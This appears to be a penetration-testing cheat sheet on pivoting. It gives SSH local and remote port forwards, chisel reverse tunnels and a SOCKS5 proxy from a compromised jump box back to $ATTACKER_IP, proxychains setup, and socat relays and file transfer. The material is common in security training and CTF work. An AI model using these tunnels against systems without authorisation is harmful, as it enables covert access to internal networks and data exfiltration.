 Forward port from $TARGET_IP to localhost with SSH
---
```shell
ssh -N -L $PORT:localhost:$PORT $USER@$TARGET_IP
```

or run in background with -f option

```shell
ssh -N -f -L $PORT:localhost:$PORT $USER@$TARGET_IP
```

Forward port from remote machine to local machine:

```shell
service ssh start
```

then on remote machine

```shell
ssh -N -R $REMOTE_PORT:localhost:$PORT $USER@$ATTACKER_IP
```

Using CHISEL:
---
single port on attacker machine

```shell
chisel server --port 8000 --reverse
```

from jump box

```shell
./chisel client $ATTACKER_IP:8000 R:5985:$DEST_IP:5985
```

 working socks5 server on $ATTACKER_IP port 1080

```shell
chisel server --port 8001 --socks5 --reverse
```

on jump box

```shell
./chisel client --max-retry-count 1 $ATTACKER_IP:8001 R:socks
```

Edit proxychains config:
  
```config
socks5 127.0.0.1 1080
```

Execute commands with

```
proxychains -q
```

in front of them

Forward local port to target IP with SOCAT
---
```
socat TCP-LISTEN:139,reuseaddr,fork TCP:$TARGET_IP:$PORT &
```

Using SOCAT to send file:
---
On receiving machine

```shell
socat -u TCP-LISTEN:9876,reuseaddr OPEN:$FILE_OUT,creat
```

and on sending machine

```shell
socat -u FILE:$FILE_OUT TCP:$RECEIVER_IP:9876
```